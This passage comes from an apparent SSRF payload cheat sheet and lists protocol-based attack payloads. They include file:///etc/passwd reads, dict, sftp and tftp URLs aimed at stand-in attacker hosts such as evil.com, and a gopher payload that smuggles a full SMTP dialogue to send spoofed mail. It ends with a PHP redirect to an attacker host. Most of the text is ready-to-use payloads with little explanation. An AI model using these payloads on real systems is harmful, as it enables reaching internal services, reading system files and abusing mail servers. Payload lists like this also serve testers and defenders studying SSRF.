 * **Other Confusions**

 https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/

* **Bypass via open redirect**

Read more here: https://portswigger.net/web-security/ssrf

# Protocols

* file://
```html
file:///etc/passwd

```
* dict://
```html
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/

```
* SFTP://
```html
ssrf.php?url=sftp://evil.com:11111/

```
* TFTP://
```html
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

```
* LDAP://
```html
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

```
* Gopher://
```html
//Gopher smtp
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT

//Gopher HTTP
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body

//Gopher SMTP — Back connect to 1337
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```